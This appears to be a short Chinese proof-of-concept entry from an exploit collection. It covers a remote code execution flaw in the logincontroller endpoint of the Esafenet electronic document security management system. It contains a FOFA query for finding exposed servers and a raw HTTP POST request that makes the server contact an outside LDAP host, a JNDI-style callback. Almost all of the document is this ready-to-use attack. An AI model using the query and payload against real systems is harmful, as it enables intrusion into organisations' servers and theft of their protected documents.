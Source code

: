 # 亿赛通电子文档安全管理系统logincontroller接口存在远程代码执行漏洞

亿赛通电子文档安全管理系统 /CDGServer3/logincontroller 接口存在远程代码执行漏洞。

## fofa

```yaml
body="/CDGServer3/index.jsp"
```

## poc

```java
POST /CDGServer3/logincontroller HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded
Connection: close

fromurl=/LdapAjax&token=1&command=testConnection&hosts=ldap://192.168.10.1:1379/CN=account,OU=exp,DC=exp,DC=com&users=account&dns=CN=account,OU=exp,DC=exp,DC=com&dns2=OU=exp,DC=exp,DC=com&type=0&pwds=123456
```

